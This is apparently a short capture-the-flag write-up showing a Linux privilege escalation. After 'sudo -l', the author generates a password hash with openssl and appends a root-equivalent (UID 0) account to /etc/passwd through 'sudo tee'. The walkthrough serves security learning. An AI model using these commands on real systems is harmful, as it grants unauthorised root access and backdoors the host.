<br/>
# Privilege Escalation
I ran `sudo -l` and found  <br/>
<br/>
I do the following to got the reverse shell.  <br/>
1. Create a new password for new user.
```bash
openssl passwd -1 -salt "tester" "password123"
```
2. Write New Line with Tee on `/etc/passwd` with root privilege.
```bash
printf '<username>:<generated_hash>:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
```
3. Switch to the user
```bash
su <usrname>
Password: password123 
```

